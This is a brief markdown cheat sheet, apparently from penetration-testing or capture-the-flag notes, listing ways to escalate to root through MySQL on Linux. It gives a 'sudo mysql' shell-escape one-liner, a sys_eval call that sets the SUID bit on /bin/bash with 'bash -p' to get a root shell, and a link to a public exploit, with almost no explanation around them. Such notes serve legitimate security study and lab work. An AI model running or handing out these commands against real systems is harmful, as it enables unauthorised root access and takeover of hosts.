 # Sudo
```bash
sudo mysql -e '\! /bin/sh'
```
# SUID
```SQL
> select sys_eval(“chmod u+s /bin/bash”);
    /bin/bash -p 
```
# Ps aux
```
https://www.exploit-db.com/exploits/1518
```
